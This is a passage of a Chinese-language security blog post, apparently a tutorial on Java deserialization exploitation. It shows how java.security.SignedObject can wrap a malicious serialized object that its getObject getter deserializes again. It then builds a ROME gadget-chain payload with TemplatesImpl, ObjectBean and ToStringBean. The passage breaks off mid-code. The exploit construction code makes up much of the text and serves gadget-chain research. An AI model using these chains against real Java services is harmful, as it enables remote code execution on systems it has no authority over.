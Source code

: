 ## SignedObject

该类是 `java.security` 下一个用于创建真实运行时对象的类，更具体地说，`SignedObject` 包含另一个 `Serializable` 对象。

先看其构造函数方法。

![img](https://img2023.cnblogs.com/blog/3450378/202409/3450378-20240904164916990-1318338886.png)

看到参数接受一个可序列化的对象，然后又进行了一次序列化，继续看到该类的 getObject 方法（这是个 getter 方法）。

![img](https://img2023.cnblogs.com/blog/3450378/202409/3450378-20240904164916405-1413364871.png)
进行了反序列化，content 是我们可以控制的。

构造一个恶意的 SignedObject 对象。

```java
KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA"); 
kpg.initialize(1024); 
KeyPair kp = kpg.generateKeyPair(); 
SignedObject signedObject = new SignedObject(恶意对象,kp.getPrivate(),Signature.getInstance("DSA"));
```

那么现在就是要看恶意对象的选择了，

### rome 链

调用 getter 方法，第一个想到的就应该是 rome 反序列化，众所周知，rome 链中的 `ToStringBean#toString()` 方法就是循环调用 getter 方法（当然 `ObjectBean#equals` 方法也可以进行调用）

#### ToStringBean#toString ()

进行构造，最开始是直接 copy 的别的师傅的链子

```java
package org.example;  
  
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;  
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;  
import com.sun.syndication.feed.impl.ObjectBean;  
import com.sun.syndication.feed.impl.ToStringBean;  
import javax.xml.transform.Templates;  
import java.io.*;  
import java.lang.reflect.Field;  
import java.nio.file.Files;  
import java.nio.file.Paths;  
import java.security.*;  
import java.util.HashMap;  
  
public class rome3ser {  
    public static void setFieldValue(Object obj, String fieldName, Object value) throws NoSuchFieldException, IllegalAccessException {  
        Field f = obj.getClass().getDeclaredField(fieldName);  
        f.setAccessible(true);  
        f.set(obj, value);  
    }  
    public static HashMap getPayload(Class clazz, Object obj) {  
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, new ToStringBean(clazz, obj));  
        HashMap hashMap = new HashMap();  
        hashMap.put(objectBean, "rand");  
        return hashMap;  
    }  
    public static void Unser(Object obj) throws IOException, ClassNotFoundException {  
        ByteArrayOutputStream bos = new ByteArrayOutputStream();  
        ObjectOutputStream oos = new ObjectOutputStream(bos);  
        oos.writeObject(obj);  
        ByteArrayInputStream bis = new ByteArrayInputStream(bos.toByteArray());  
        ObjectInputStream ois = new ObjectInputStream(bis);  
```